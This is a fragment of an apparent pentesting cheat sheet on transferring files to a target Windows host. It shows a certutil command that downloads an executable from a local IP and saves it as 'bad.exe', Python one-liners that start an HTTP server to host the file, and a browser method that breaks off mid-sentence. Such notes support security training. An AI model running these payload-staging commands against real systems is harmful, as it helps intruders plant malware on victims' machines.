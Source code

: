 - [ ] Certutil (Client)

```powershell
$ certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```

**Note :** The space in between `40564.exe` and `bad.exe` is what the file we be named after download, in this case it is `bad.exe`

- [ ] HTTP (Server)

```powershell
# Python2
$ python -m SimpleHTTPServer 80

# Python3
$ python3 -m http.server 80
```

- [ ] Browser (Client)
	- If we have a python server hosting a file and we do have RDP on a 